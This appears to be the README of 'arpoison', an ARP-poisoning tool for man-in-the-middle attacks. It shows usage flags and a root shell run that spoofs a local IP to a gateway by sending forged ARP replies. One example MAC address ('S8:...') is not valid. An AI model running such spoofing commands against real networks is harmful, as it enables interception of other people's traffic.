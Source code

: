# arpoison
ARP-poisoning tool

Can conduct mitm attacks spoofing an IP address, sending custom ARP-replies

USAGE:
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -s 192.168.1.15 -t 192.168.1.1 -m E8:CC:18:5B:9D:62
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre> 

EXAMPLE:
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -i wlan0 -s 192.168.1.15 -t 192.168.1.1 -m S8:7C:18:5B:9D:62
[i] Using interface wlan0
[+] spoof IP:	192.168.1.15 (192.168.1.15)
[+] target IP:	192.168.1.1 (_gateway)
[+] target MAC:	S8:7C:18:5B:9D:62
[+] my MAC:	A4:35:B0:84:0A:87
[i] Building ARP packet...done
[i] Enveloping Ethernet frame...done
[+] Sending stage 0
[+] Sending stage 1
[+] Sending stage 2
[+] Sending stage 3
[+] Sending stage 4
[+] Sending stage 5
</pre>
